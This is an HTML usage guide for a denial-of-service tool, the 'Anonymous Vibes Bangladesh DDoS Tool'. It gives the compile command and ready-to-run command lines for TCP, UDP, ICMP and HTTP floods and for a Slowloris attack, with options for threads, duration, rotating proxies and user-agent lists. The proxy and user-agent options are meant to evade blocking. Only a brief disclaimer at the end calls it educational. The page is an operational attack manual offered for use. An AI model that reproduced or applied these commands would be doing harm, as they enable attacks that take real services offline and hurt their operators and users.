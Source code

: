<!DOCTYPE html>
<html>
<body>
  <h1>Anonymous Vibes Bangladesh DDoS Tool</h1>
  
  <h2>Compilation Instructions</h2>
  <pre><code>g++ -o avb-ddos avb-ddos.cpp -lcurl -lpthread</code></pre>

  <h2>Basic Usage Syntax</h2>
  <pre><code>./avb-ddos --target &lt;IP&gt; --port &lt;PORT&gt; --&lt;ATTACK_MODE&gt; [OPTIONS]</code></pre>

  <h2>Attack Modes</h2>
  
  <h3>1. TCP Flood Attack</h3>
  <pre><code>./avb-ddos -t 192.168.1.100 -p 80 --tcp --threads 1000</code></pre>
  <p>Flood TCP port 80 with 1000 concurrent threads</p>

  <h3>2. UDP Flood Attack</h3>
  <pre><code>./avb-ddos --target 10.0.0.5 --port 53 --udp --duration 300</code></pre>
  <p>UDP flood on DNS port (53) for 5 minutes (300 seconds)</p>

  <h3>3. ICMP Flood (Ping Flood)</h3>
  <pre><code>sudo ./avb-ddos -t 203.0.113.25 --icmp --threads 500</code></pre>
  <p>Requires root privileges, floods target with ICMP Echo requests</p>

  <h3>4. HTTP Flood</h3>
  <pre><code>./avb-ddos --target example.com -p 443 --http --proxy proxies.txt --useragents ua.txt</code></pre>
  <p>HTTPS flood using rotating proxies and custom User-Agents</p>

  <h3>5. Slowloris Attack</h3>
  <pre><code>./avb-ddos -t 192.168.1.10 -p 8080 --slowloris --threads 200</code></pre>
  <p>Maintains multiple persistent HTTP connections</p>

  <h2>Advanced Options</h2>
  
  <h3>Using Proxies</h3>
  <pre><code>./avb-ddos -t 10.1.1.1 -p 80 --http --proxy proxies.txt</code></pre>
  <p>Proxy list format (proxies.txt):</p>
  <pre>
http://proxy1:port
socks5://proxy2:port
  </pre>

  <h3>Custom User Agents</h3>
  <pre><code>./avb-ddos --target example.com -p 80 --http --useragents user-agents.txt</code></pre>
  <p>user-agents.txt format (one per line):</p>
  <pre>
Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
Mozilla/5.0 (Linux; Android 10; SM-G980F)...
  </pre>

  <h2>Important Notes</h2>
  <ul>
    <li>🛑 <strong>Requires root privileges for ICMP attacks</strong></li>
    <li>⚠️ <strong>Default thread count: 500</strong></li>
    <li>🔌 <strong>Add --timeout to configure connection timeout (default: 10s)</strong></li>
    <li>⏱️ <strong>Use --duration for timed attacks</strong></li>
  </ul>

  <h2>Legal Disclaimer</h2>
  <p>⚠️ <em>This tool is for educational purposes and authorized testing only. 
  <br>Misuse of this software is strictly prohibited. The developers assume no liability 
  <br>for any unauthorized or illegal use of this tool.</em></p>
</body>
</html>

